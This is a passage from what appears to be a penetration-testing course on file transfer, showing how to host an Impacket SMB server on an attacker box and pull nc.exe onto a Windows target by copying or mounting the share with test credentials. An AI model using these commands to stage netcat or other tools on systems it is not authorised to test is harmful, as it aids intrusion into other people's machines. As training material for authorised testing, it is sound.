 ## SMB Downloads

The Server Message Block protocol (SMB protocol) that runs on port TCP/445 is common in enterprise networks where Windows services are running. It enables applications and users to transfer files to
and from remote servers.

We can use SMB to download files from our Pwnbox easily. We need to create an SMB server in our Pwnbox with [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)
from Impacket and then use `copy`, `move`, PowerShell `Copy-Item`, or any other tool
that allows connection to SMB.

### Create the SMB Server

```bash
 sudo impacket-smbserver share -smb2support /tmp/smbshare
```

### Copy a File from the SMB Server

To download a file from the SMB server to the current working directory, we can use the following command:

```posershell
  C:\hrb> copy \\<SMB Server>\<Share>\<File> .
  C:\htb> copy \\192.168.220.133\share\nc.exe
```

New versions of Windows block unauthenticated guest access. To transfer files in this scenario, we can set a username and password using our Impacket SMB server and mount the SMB server on our windows
target machine:

### Create the SMB Server with a Username and Password

```bash
 sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

### Mount the SMB Server with Username and Password

```powershell
C:\htb> net use n: \\192.168.220.133\share /user:test test

The command completed successfully.

C:\htb> copy n:\nc.exe
        1 file(s) copied.
```

> Note: You can also mount the SMB server if you receive an error when you use `copy filename \\IP\sharename`.

## FTP Downloads
